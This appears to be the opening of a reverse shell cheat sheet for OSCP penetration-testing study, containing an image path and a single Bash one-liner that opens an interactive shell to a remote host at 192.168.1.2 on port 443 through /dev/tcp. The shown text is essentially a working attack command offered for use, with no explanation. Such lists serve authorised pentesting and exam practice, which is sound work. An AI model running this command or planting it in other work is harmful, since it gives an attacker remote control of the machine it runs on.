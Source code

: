 # Reverse Shell FULL
Reverse Shell collection for: Pentesting - OSCP

## Bash ##
bash -i >& /dev/tcp/192.168.1.2/443 0>&1
